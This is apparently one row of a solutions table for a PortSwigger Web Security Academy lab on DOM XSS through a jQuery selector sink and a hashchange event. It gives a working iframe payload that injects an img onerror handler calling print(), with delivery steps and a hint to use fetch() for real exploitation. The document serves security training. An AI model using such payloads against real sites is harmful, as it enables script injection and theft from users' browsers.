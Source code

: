 |6     |DOM XSS in jQuery selector sink using a hashchange event                                                                 |<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |uses jQuery's $()  selector function to auto-scroll to a given post, whose title is passed via the location.hash  property. This payload calls the print() function on the victim browser, consider using fetch() for exploitation. To use, store this in the body of the exploit server and deliver to victim                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |Apprentice, DOM XSS                         |